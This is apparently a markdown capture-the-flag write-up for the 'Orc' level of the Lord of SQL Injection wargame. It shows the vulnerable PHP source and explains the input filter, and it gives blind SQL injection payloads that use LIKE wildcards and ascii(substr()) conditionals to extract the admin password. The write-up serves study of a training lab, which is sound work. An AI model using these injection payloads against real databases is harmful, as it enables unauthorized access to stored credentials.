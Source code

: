 # **Orc**
## 1. What will we learn from this problem?
This problem wants to make sure you know basic **Blind SQL injection**  
( In fact, I don't know exactly what it is. )

## 2. Analize codes
    <?php
      include "./config.php";
      login_chk();
      dbconnect();

      if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw]))
        exit("No Hack ~_~");

      $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'";

      echo "<hr>query : <strong>{$query}</strong><hr><br>";

      $result = @mysql_fetch_array(mysql_query($query));

      if($result['id'])
        echo "<h2>Hello admin</h2>";

      $_GET[pw] = addslashes($_GET[pw]);

      $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'";

      $result = @mysql_fetch_array(mysql_query($query));

      if(($result['pw']) && ($result['pw'] == $_GET['pw']))
        solve("orc");

      highlight_file(__FILE__);
    ?>

### 1. preg_match()
We can't use like these scope(only pw)

    prob | _ | . | ()

if we use those, we can see message like "No Hack ~_~"

### 2. query
Query is this.

    select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'

Only pw parameter can modulate this query.

### 3. if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc");
We have to success to get pw field. Also, to clear this problem, we have to know what pw is.

## 3. Solution
In this problem, we can use almost functions except table name.  

We must use Python or other programming language.  
( Of course you can do every case. But it will be very hard )

You can use many functions of SQL.

### 3-1. **SUBSTR**, **ASCCI**
[They are same thing with what I told.](https://github.com/moreal/TIL/blob/master/Security/WarGame/WriteUp/los.eagle-jump.org/03.%20Goblin.md)  

### 3-2. **if(Condition, trueValue, falseValue)**
As its name implies, this function helps to process according to the condition which user wants

If value of condition is true, return trueValue.  
If not, it will return falseValue.

Ex) - "pw=if(1=1,1,0)" = "pw=1" // "pw=if(1=0,1,0)" = "pw=0"

### 3-3. **{source} like {pattern}**
This function checks there is something using pattern.

    Wild Card

        (pw is '1234')

        We can know length of string using char '_'
        When we use query like "pw like '____'", it will return true.

        And

        When we use query like "pw like '1%'", this function check that string start with '1'.

        '1%' : start with '1' ?
        '%1' : end with '1' ?
        '%1%' : there is '1' ?

Using them, we can find out the 'pw'

I made a simple python program to find 'pw' [__SOURCE__]()

### My Answers :

    --- {} part will be replaced to other integer value ---

    ?pw=' or id=admin and pw like '{str}%25

    ?pw=' or id=admin and 1=if(ascii(substr(pw, {offset},1))={ascii_integer_value},1,0) -- -

If we can find string "Hello admin" from html page source,  
the character or string, which we tried is part of string which we wanted.  

**Lastly, There can be many answers**

**[Go to see other solutions](https://github.com/moreal/WriteUp/blob/master/Wargame/Lord%20of%20SQL%20Injection/00.%20ReadMe.m)**
